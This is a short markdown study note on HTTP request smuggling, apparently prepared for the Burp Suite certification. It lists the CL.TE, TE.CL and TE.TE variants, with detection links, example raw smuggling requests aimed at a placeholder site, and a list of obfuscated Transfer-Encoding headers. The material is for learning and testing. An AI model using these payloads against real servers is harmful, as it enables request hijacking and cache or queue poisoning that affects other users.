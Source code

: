# HTTP Request Smuggling

## Types:

1. HTTP/1.1
    1. CL.TE
    2. TE.CL
    3. TE.TE
3. HTTP/2

## How to find each type:

1. HTTP/1.1
    1. CL.TE
       - [Using 404 response](https://github.com/leggetth/Burp-Suite-Certified-Practitioner-Prep/blob/main/training/http_req_smuggling_practice.md#confirming-tecl-using-404)
    2. TE.CL
       - [Using 404 response](https://github.com/leggetth/Burp-Suite-Certified-Practitioner-Prep/blob/main/training/http_req_smuggling_practice.md#confirming-tecl-using-404)
    3. TE.TE
       - [Using invalid method GPOST](https://github.com/leggetth/Burp-Suite-Certified-Practitioner-Prep/blob/main/training/http_req_smuggling_practice.md#obfuscating-te)

## How to exploit each type:

1. HTTP/1.1
    1. CL.TE
       ```
       POST / HTTP/1.1
       Host: vulnerable-website.com
       Content-Length: 13               --> Content length is 13 which includes smuggled
       Transfer-Encoding: chunked    

       0  --> Since it is chunked the 0 terminates the first request, sending smuggled to the backend

       SMUGGLED               
       ```
    2. TE.CL
         ```
       POST / HTTP/1.1
       Host: vulnerable-website.com
       Content-Length: 3               --> Content length is 3 which includes the 8
       Transfer-Encoding: chunked    

       8  --> This is the length of the following request
       SMUGGLED
       0   --> Needs to end in /r/n/r/n
       ```
    3. TE.TE
       - You need to obfuscate the Transfer-Encoding header so that one server does not process it
        ```
        Transfer-Encoding: xchunked
        Transfer-Encoding : chunked
        Transfer-Encoding: chunked
        Transfer-Encoding: x
        Transfer-Encoding:[tab]chunked
        [space]Transfer-Encoding: chunked
        X: X[\n]Transfer-Encoding: chunked
        Transfer-Encoding
        : chunked
       ```

## Other important notes:
- HTTP/1.1 allows for content-length transfer-encoding
- Some servers that do support the Transfer-Encoding header can be induced not to process it if the header is obfuscated in some way.
- HTTP/2 is only vulnerable if the backend supports HTTP/1.1
- You need to manually switch the protocol in repeater
